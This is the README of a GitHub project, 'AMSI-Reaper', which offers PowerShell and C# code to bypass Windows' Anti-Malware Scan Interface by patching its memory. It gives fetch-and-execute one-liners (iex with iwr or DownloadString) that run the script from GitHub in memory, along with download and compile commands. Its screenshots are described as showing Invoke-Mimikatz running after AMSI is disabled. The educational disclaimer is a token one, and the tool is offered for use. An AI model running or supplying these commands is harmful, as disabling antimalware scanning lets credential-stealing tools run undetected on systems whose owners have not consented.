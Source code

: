 # AMSI-Reaper
![reaper](https://github.com/h0ru/AMSI-Reaper/assets/117091833/24861e69-df06-477d-8844-a0d4015ef830)

## Disclaimer ⚠️
- *__The AMSI-Reaper tool is designed mainly for educational and research purposes. The author is not responsible for any misuse, damage, or legal consequences caused by the use of this tool.__*

## Overview📎 
- The [`(AMSI)`](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal) is a built-in security feature in Windows that enables applications and services to integrate with antimalware products. It automatically protects against harmful scripts and code in programs like PowerShell.
- AMSI-Reaper is a tool developed in [`PowerShell`](https://github.com/h0ru/AMSI-Reaper/blob/main/src/AMSI-Reaper.ps1) and [`C#`](https://github.com/h0ru/AMSI-Reaper/blob/main/src/AMSI-Reaper.cs) (.NET Framework v4.0) designed to bypass the Anti-Malware Scan Interface  in Windows.
- AMSI-Reaper injects code into the memory of the AMSI components, preventing them from interfering with your scripts.
- Check out more on the [`YouTube Video`](https://youtu.be/rNGQpjJ2rXg?feature=shared)

## Usage 🛠️
- AMSI-Reaper requires __Administrator privileges__ to function correctly. Please run the tool as an Administrator.
### 1️⃣ PowerShell Version
- __Download__
```powershell
iex (iwr https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.ps1)
```
```powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.ps1')
```
### 2️⃣ C# Version
- __Download__
```powershell
wget https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.cs -O AMSI-Reaper.cs
```
```powershell
iwr https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.cs -O AMSI-Reaper.cs
```
- __Compile__
```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe AMSI-Reaper.cs
```
## Images 🪛
### ✔ Invoke-Mimikatz is detected and blocked by AMSI.
![image1](https://github.com/h0ru/AMSI-Reaper/assets/117091833/6dba8127-9fec-41ec-ba8d-f70d01678dea)
### ✔ With AMSI-Reaper in PowerShell, we can request and use it from the command line in real-time, all in memory.
![image2](https://github.com/h0ru/AMSI-Reaper/assets/117091833/dbcf74d0-a3c3-4e64-a024-3b2bea604f37)
### ✔ Alternatively, you can also use AMSI-Reaper in C# with native Windows features by compiling it with CSC.
![image3](https://github.com/h0ru/AMSI-Reaper/assets/117091833/8906a6ab-d2d8-4ace-906c-2e0869040aa7)
